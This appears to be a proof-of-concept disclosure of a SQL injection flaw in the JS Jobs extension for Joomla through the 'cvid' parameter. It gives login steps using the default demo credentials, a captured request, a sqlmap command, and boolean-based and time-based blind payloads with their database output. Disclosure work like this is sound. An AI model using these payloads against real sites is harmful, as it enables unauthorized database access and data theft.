 # SQL injection in JS jobs version 1.1.5 - 1.4.2 for Joomla

**CVE Link:** Pending

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
An SQL injection vulnerability exists in the JS Jobs extension (v1.4.2) via the 'cvid' parameter and is exploitable as the jobseeker user.

## POC
To exploit this vulnerability login as the jobseeker user with default credentials (jobseeker:demo) and go to 'jobseeker-controlpanel >> My Stuff >> Newest Jobs >> Newest Jobs >> Apply Now >> Apply Now' and capture the "Apply Now" request.

## HTTP Request
```
POST /index.php?option=com_jsjobs&task=jobapply.jobapplyajax HTTP/2
Host: localhost:8080
Cookie: joomla_user_state=logged_in; 67aa5f9b49e233456b916ea62ef1447b=kjou43pssdvaa5plr84dhc8P64
Content-Length: 38
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/index.php/component/jsjobs/newest-jobs?Itemid=
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

jobid=1&cvid=1&coverletterid=4&uid=460
```

## Exploit
```
sqlmap -r req.txt --dbs --batch -p cvid --dbms=mysql --threads=10
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: cvid (POST)
Type: boolean-based blind
Title: Boolean-based blind - Parameter replace (original value)
Payload: jobid=1&cvid=(SELECT (CASE WHEN (7270=7270) THEN 1 ELSE (SELECT 6098 UNION SELECT 7386) END))&coverletterid=4&uid=460

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: jobid=1&cvid=1 AND (SELECT 6497 FROM (SELECT(SLEEP(5)))EAyv)&coverletterid=4&uid=460
---

available databases [2]:
[*] joomla_db
[*] information_schema
```
